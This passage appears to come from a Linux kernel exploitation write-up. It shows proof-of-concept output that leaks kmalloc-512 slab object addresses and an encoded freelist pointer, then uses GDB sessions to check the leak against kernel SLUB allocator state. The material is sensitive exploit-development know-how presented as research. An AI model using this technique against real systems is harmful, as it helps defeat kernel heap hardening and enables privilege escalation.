 ```
slab[9] =	0xffff88800a6d7200
slab[10] =	0xffff88800a6d7400
slab[11] =	0xffff88800a6d7600
slab[12] =	0xffff88800a6d7800
slab[13] =	0xffff88800a6d7a00
slab[14] =	0xffff88800a6d7c00
slab[15] =	0xffff88800a6d7e00

#
```

On a debugger connected to the virtual machine, we validate whether the result printed out by the proof of concept is valid. The proof of concept prints out the encoded freelist null pointer and the objects' addresses from the slab currently on the CPU. The addresses in the slab are shuffled due to `SLAB_FREELIST_RANDOM` security mechanism in the Linux kernel. That's why they are not printed in the same order as found in the CPU cache. For this validation to happen successfully, the GDB commands need to be executed right after the proof of concept finishes. Otherwise, other processes might allocate or free objects from/to the cache and the result seen on the debugger might be different than expected. The GDB commands executed below are available in the initialization file located at `tools/gdbinit`. More information about GDB initialization files can be found at the links referred by [\[10\]](#10---gdb-documentation---214-initialization-files)[\[11\]](#11---gdbinit---gdb-initialization-scripts). Knowledge about the Linux kernel SLUB allocator is also needed. You can find a thorough presentation about it on [\[12\]](#12---slub-internals-for-exploit-developers).

```
(gdb) slabcaches "kmalloc-512"
Object:         0xffff888004441a00
Name:           kmalloc-512
Size:           512
Object size:    512
Offset:         256
Refcount:       -1
Ctor:           (nil)
Inuse:          512
Align:          512
Random:         0xed00d622dd756e02
CPU slab:       0x39140
CPU partial:    52
Flags:          0x40001000
Min partial:    5
Alloc flags:    0x40000
List:           0xffff888004441a68
Node:           0xffff888004441ad8
(gdb) printkmemcachecpu 0 0x39140
Object:         0xffff88806f039140
Freelist:       0xffff88800a6d6200
TID:            1260601344
Slab:           0xffffea000029b580
Partial:        0xffffea00001e0100
(gdb) freelistwalk 0xffff88800a6d6200 256 0xacd433247d5177a4
Freelist pointer: 0xffff88800a6d6200
Freelist pointer: 0xffff88800a6d7800
Freelist pointer: 0xffff88800a6d6600
Freelist pointer: 0xffff88800a6d6400
Freelist pointer: 0xffff88800a6d6000
Freelist pointer: 0xffff88800a6d7200
Freelist pointer: 0xffff88800a6d7a00
Freelist pointer: 0xffff88800a6d6a00
Freelist pointer: 0xffff88800a6d7000
Freelist pointer: 0xffff88800a6d6e00
Freelist pointer: 0xffff88800a6d7c00
Freelist pointer: 0xffff88800a6d7400
Freelist pointer: 0xffff88800a6d6c00
Freelist pointer: 0xffff88800a6d7e00
```